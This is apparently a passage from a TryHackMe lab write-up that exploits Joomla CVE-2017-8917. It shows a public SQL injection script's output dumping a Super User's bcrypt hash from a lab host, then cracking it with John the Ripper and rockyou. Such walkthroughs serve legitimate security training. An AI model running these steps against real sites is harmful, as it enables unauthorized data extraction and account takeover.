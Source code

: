 >https://www.cvedetails.com/cve/CVE-2017-8917/

# Exploitation

There is a python code available to exploit this vulnerability.

>https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

```
┌──(root㉿kali)-[~/tryhackme]
└─# ./joomblah.py http://10.10.59.64/   
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

We found a user ```jonah``` with a password hash. Let's crack the hash using John The Ripper. It takes quite some time to crack the password.

```
┌──(root㉿kali)-[~/tryhackme]
└─# cat hash.txt
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

┌──(root㉿kali)-[~/tryhackme]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:08:37 DONE (2023-03-20 01:18) 0.001933g/s 90.54p/s 90.54c/s 90.54C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

